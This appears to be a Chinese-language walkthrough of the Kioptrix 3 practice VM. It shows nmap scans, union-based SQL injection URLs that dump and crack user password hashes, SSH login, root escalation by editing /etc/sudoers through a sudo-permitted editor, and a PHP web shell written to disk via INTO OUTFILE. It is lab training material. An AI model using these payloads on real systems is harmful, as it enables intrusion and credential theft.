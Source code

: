 # 信息搜集

1、扫主机存活

```bash
└─# nmap -sn 192.168.0.0/24 --min-rate=3333 -r
```

2、扫端口

```bash
└─# nmap -p- -sV -A 192.168.0.102
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30e3f6dc2e225d17ac460239ad71cb49 (DSA)
|_  2048 9a82e696e47ed6a6d74544cb19aaecdd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Ligoat Security - Got Goat? Security ...
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
MAC Address: 00:0C:29:00:E1:ED (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

3、观察 80 端口

<img src=".\图片\Snipaste_2023-06-18_10-49-24.png" alt="Snipaste_2023-06-18_10-49-24" style="zoom:80%;" />

发现有链接跳到 `kioptrix3.com` ，于是再绑定 hosts 文件再访问

<img src=".\图片\Snipaste_2023-06-18_11-01-08.png" alt="Snipaste_2023-06-18_11-01-08" style="zoom:67%;" />



# WEB打点

## SQL注入

1、发现注入点，id 为注入点

```http
http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos
```

输入单引号显示报错

<img src=".\图片\Snipaste_2023-06-18_11-42-11.png" alt="Snipaste_2023-06-18_11-42-11" style="zoom:67%;" />

2、联合注入获取数据

判断当前表列名，有 6 个字段 

```http
http://kioptrix3.com/gallery/gallery.php?id=1 order by 6-- &sort=filename#photos
```

获取当前数据库，为 `gallery` ，且当前用户为 root，也可以尝试读写文件

```http
http://kioptrix3.com/gallery/gallery.php?id=-1 union select 1,database(),3,4,5,6-- &sort=filename#photos
```

获取表名，如下

```
dev_accounts,gallarific_comments,gallarific_galleries,gallarific_photos,gallarific_settings,gallarific_stats,gallarific_users
```

```http
http://kioptrix3.com/gallery/gallery.php?id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='gallery'),3,4,5,6-- &sort=filename#photos
```

获取 `dev_accounts` 表中 的字段名，为 id，username，password

```http
http://kioptrix3.com/gallery/gallery.php?id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='dev_accounts'),3,4,5,6-- &sort=filename#photos
```

获取 `dev_accounts` 表中的数据，顾名思义为机器用户的表

```http
http://kioptrix3.com/gallery/gallery.php?id=-1 union select 1,(select group_concat(username,0x7e,password) from gallery.dev_accounts),3,4,5,6-- &sort=filename#photos
```

得到数据

```
dreg~0d3eccfb887aabd50f243b3f155c0f85,loneferret~5badcaf789d3d1d09794d8f021f40f0e
```

md5 破解得

```
dreg:Mast3r
loneferret:starwars
```

## SSH登录

由于目标机开启了 22 端口，我们可以 ssh 远程登录

```bash
└─# ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa  loneferret@192.168.0.102                                                      255 ⨯
The authenticity of host '192.168.0.102 (192.168.0.102)' can't be established.
RSA key fingerprint is SHA256:NdsBnvaQieyTUKFzPjRpTVK6jDGM/xWwUi46IR/h1jU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.102' (RSA) to the list of known hosts.
loneferret@192.168.0.102's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Last login: Sat Apr 16 08:51:58 2011 from 192.168.1.106
loneferret@Kioptrix3:~$ id
uid=1000(loneferret) gid=100(users) groups=100(users)
```

# 提权

```bash
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
    
loneferret@Kioptrix3:~$find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/apache2/suexec
/usr/lib/pt_chown
/usr/bin/arping
/usr/bin/mtr
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/at
/usr/bin/sudoedit
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/local/bin/ht
/usr/sbin/pppd
/usr/sbin/uuidd
/lib/dhcp3-client/call-dhclient-script
/bin/fusermount
/bin/ping
/bin/mount
/bin/umount
/bin/ping6
/bin/su
```

发现可以以 `root` 用户身份执行 `/usr/local/bin/ht`，这是一个编辑器，这里也可以尝试修改 /etc/passwd 里 root 的密码 ，与 vim 类似的方法吧

编辑 /etc/sudoers 文件

<img src=".\图片\Snipaste_2023-06-18_12-17-12.png" alt="Snipaste_2023-06-18_12-17-12" style="zoom:80%;" />

再 `sudo /bin/bash` 提权

```bash
loneferret@Kioptrix3:~$ sudo /usr/local/bin/ht
loneferret@Kioptrix3:~$ sudo /bin/bash
root@Kioptrix3:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Kioptrix3:~# cd /root
root@Kioptrix3:/root# ls
Congrats.txt  ht-2.0.18
```

# 补充

其实在 sql 注入里写文件也是可以的

```http
http://kioptrix3.com/gallery/gallery.php?id=-1 union select 1,"<?php @eval($_POST['cmd']); ?>",3,4,5,6 into outfile "/tmp/1.php"-- &sort=filename#photos
```

```bash
root@Kioptrix3:/tmp# ls
1.php
```
